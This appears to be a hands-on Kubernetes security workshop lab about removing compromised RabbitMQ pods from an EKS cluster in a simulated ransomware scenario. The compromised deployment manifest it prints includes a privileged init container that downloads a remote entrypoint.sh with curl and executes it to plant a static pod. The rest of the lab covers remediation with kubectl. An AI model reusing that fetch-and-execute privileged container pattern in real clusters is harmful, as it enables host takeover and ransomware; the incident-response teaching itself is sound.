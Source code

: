 # Background
In previous sections of this workshop we found that the RabbitMQ deployment had been compromised. The rabbitmq pods created by the deployment will infect the host with a static pod used to execute the ransomware attack. To return our application to its normal operational state we must do two things. First, we must remove the compromised RabbitMQ pods. Second, we must remove the static pods that were created by the compromised RabbitMQ pods. In this lab you will correct the application deployment, and delete the compromised RabbitMQ pods. In the next lab, you will locate and delete the static pods.

## Prerequisites
We will be using a AWS Cloud9 workspace to execute this lab. The following is a list of software that we will use to complete the lab.

1. [kubectl](https://www.eksworkshop.com/020_prerequisites/k8stools/#install-kubectl "install kubectl")
2. [The AWS CLI](https://www.eksworkshop.com/020_prerequisites/k8stools/#update-awscli "AWS CLI installation")

The software should have been installed for you before starting this workshop. However, if it has not been installed you can follow these instructions to [install Kubernetes tools](https://www.eksworkshop.com/020_prerequisites/k8stools/ "EKS tools install page"). These instructions are part of the larger [EKS workshop](https://www.eksworkshop.com/020_prerequisites/k8stools/).

## Removing Compromised RabbitMQ Pods

We will start by reviewing the current manifest for the RabbitMQ deployment. You can get the manifest by running this command:

`kubectl -n sock-shop get deployment rabbitmq -o yaml`

Notice that the `image:`, `command:`, and `securityContext:`elements are incorrect and will need to be changed or removed. We have remove some lines here for readability.

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: rabbitmq
  labels:
    name: rabbitmq
  namespace: sock-shop
spec:
  replicas: 1
  selector:
    matchLabels:
      name: rabbitmq
  template:
    metadata:
      labels:
        name: rabbitmq
      annotations:
        prometheus.io/scrape: "false"
    spec:
      initContainers:    # <--- remove the init container
      - name: istio-init
        image: public.ecr.aws/b3u2a5x0/initubuntu:latest
        imagePullPolicy: Always
        command: ['/bin/bash', '-c', 'curl -o entrypoint.sh https://raw.githubusercontent.com/imtrahman/static-pod/main/entrypoint.sh && chmod +x entrypoint.sh && ./entrypoint.sh && exit']
        securityContext:
          privileged: true
      containers:
      - name: rabbitmq
        image: rabbitmq:3.6.8-management
        env:
          - name: CRYPTO_ACCOUNT_NUMBER
            valueFrom:
              secretKeyRef: 
                name: white-rabbit
                key: CRYPTO_ACCOUNT_NUMBER
        ports:
        - containerPort: 15672
          name: management
        - containerPort: 5672
          name: rabbitmq
        securityContext:
          privileged: true
          capabilities:
            drop:
              - all
            add:
              - CHOWN
              - SETGID
              - SETUID
              - DAC_OVERRIDE
      - name: rabbitmq-exporter
        image: kbudde/rabbitmq-exporter
        ports:
        - containerPort: 9090
          name: exporter
      nodeSelector:
        beta.kubernetes.io/os: linux
```

Correcting the manifest and deploying that change will cause Kubernetes to terminate the compromised pods, and replace them with uncompromised pods.

There are several ways to change update a deployment. For example, we can update a deployment using the command `kubectl edit`, `kubectl patch`, `kubectl apply` or `kubectl replace`. For this lab we will provide a corrected yaml manifest and use the command `kubectl apply`. Copy and paste the following commands into your Cloud9 terminal. Once you apply the new manifest Kubernetes will terminate the compromised pods and rollout uncompromised RabbitMQ pods.

```bash
# Create a new manifest
cat <<EOF > fixed-rabbitmq-deployment.yaml
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: rabbitmq
  labels:
    name: rabbitmq
  namespace: sock-shop
spec:
  replicas: 1
  selector:
    matchLabels:
      name: rabbitmq
  template:
    metadata:
      labels:
        name: rabbitmq
      annotations:
        prometheus.io/scrape: "false"
    spec:
      containers:
      - name: rabbitmq
        image: rabbitmq:3.6.8-management
        ports:
        - containerPort: 15672
          name: management
        - containerPort: 5672
          name: rabbitmq
        securityContext:
          capabilities:
            drop:
              - all
            add:
              - CHOWN
              - SETGID
              - SETUID
              - DAC_OVERRIDE
      - name: rabbitmq-exporter
        image: kbudde/rabbitmq-exporter
        ports:
        - containerPort: 9090
          name: exporter
      nodeSelector:
        beta.kubernetes.io/os: linux
EOF
```

## Apply the new manifest
```bash
kubectl -n sock-shop apply --record -f ./fixed-rabbitmq-deployment.yaml
```

The `--record` flag included in the `kubectl apply` command will cause the command used for deploying the manifest to be recorded in with the rollout history. You can view the rollout history with the following command.

```bash
kubectl -n sock-shop rollout history deployment rabbitmq

deployment.apps/rabbitmq
REVISION  CHANGE-CAUSE
1         <none>
2         kubectl apply --record=true -f ./fixed-rabbitmq-deployment.yaml
```

You can verify the change was successful by using the following commands:

> Get a long listing of the rabbitmq deployment. Note the image name has changed. We will use the selector in the next command.

```bash
k get deployment rabbitmq -o wide

NAME       READY   UP-TO-DATE   AVAILABLE   AGE     CONTAINERS                   IMAGES                                               SELECTOR
rabbitmq   1/1     1            1           4d14h   rabbitmq,rabbitmq-exporter   rabbitmq:3.6.8-management,kbudde/rabbitmq-exporter   name=rabbitmq
```

Get the rabbitmq pod based on the pod selector. Note the age should reflect the recent deployment. We will use the pod name in the next command.

```bash
kubectl -n sock-shop get pods --selector name=rabbitmq

NAME                        READY   STATUS    RESTARTS   AGE   IP            NODE                           NOMINATED NODE   READINESS GATES
rabbitmq-57dd566589-4mmmd   2/2     Running   0          1m   10.0.189.60   ip-10-0-191-117.ec2.internal   <none>           <none>
```

Get the pod spec using the pod name. You can confirm that the image and security context were updated. Some lines were removed for readability.

```bash
kubectl -n sock-shop get pods rabbitmq-57dd566589-4mmmd -o yaml

apiVersion: v1
kind: Pod
metadata:
  annotations:
    kubernetes.io/psp: eks.privileged
    prometheus.io/scrape: "false"
  creationTimestamp: "2021-10-29T17:03:26Z"
  generateName: rabbitmq-57dd566589-
  labels:
    name: rabbitmq
    pod-template-hash: 57dd566589
  name: rabbitmq-57dd566589-4mmmd
  namespace: sock-shop
  ownerReferences:
  - apiVersion: apps/v1
    blockOwnerDeletion: true
    controller: true
    kind: ReplicaSet
    name: rabbitmq-57dd566589
    uid: 1c49e7a0-5e46-4977-b17f-a95f410da140
  resourceVersion: "894492"
  uid: 49fe1e3f-eb3f-46bb-ae2e-dd42110bf658
spec:
  containers:
  - image: rabbitmq:3.6.8-management
    imagePullPolicy: Always
    name: rabbitmq
    ports:
    - containerPort: 15672
      name: management
      protocol: TCP
    - containerPort: 5672
      name: rabbitmq
      protocol: TCP
    resources: {}
      [...]
```

You will delete the static pod created by the compromised RabbitMQ pod in the next lab.
